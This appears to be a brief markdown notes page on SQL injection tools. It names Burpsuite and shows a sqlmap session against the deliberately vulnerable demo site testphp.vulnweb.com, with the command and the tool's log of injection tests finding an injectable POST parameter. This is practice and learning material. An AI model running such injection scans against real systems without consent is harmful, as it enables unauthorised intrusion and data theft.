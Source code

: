 ### SQL Injection Tools

#### Semi-Automated

##### Burpsuite

#### Automated

##### sqlmap

```
sherwinowen@owenbox:~/my_tools/sqlmap$ python3 sqlmap.py -r request.txt
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.5.10.15#dev}
|_ -| . [.]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:20:56 /2021-10-14/

[13:20:56] [INFO] parsing HTTP request from 'request.txt'
custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] 
[13:21:06] [INFO] testing connection to the target URL
got a 302 redirect to 'http://testphp.vulnweb.com:80/login.php'. Do you want to follow? [Y/n] y
redirect is a result of a POST request. Do you want to resend original POST data to a new location? [Y/n] y
[13:21:50] [INFO] testing if the target URL content is stable
[13:21:50] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[13:21:51] [INFO] heuristic (basic) test shows that (custom) POST parameter '#1*' might be injectable (possible DBMS: 'MySQL')
[13:21:52] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] y
[13:22:06] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[13:22:08] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[13:22:09] [INFO] testing 'Generic inline queries'
[13:22:10] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[13:22:20] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[13:22:25] [INFO] (custom) POST parameter '#1*' appears to be 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)' injectable 
[13:22:25] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[13:22:25] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[13:22:26] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[13:22:26] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[13:22:27] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[13:22:27] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[13:22:28] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[13:22:28] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[13:22:29] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[13:22:29] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
```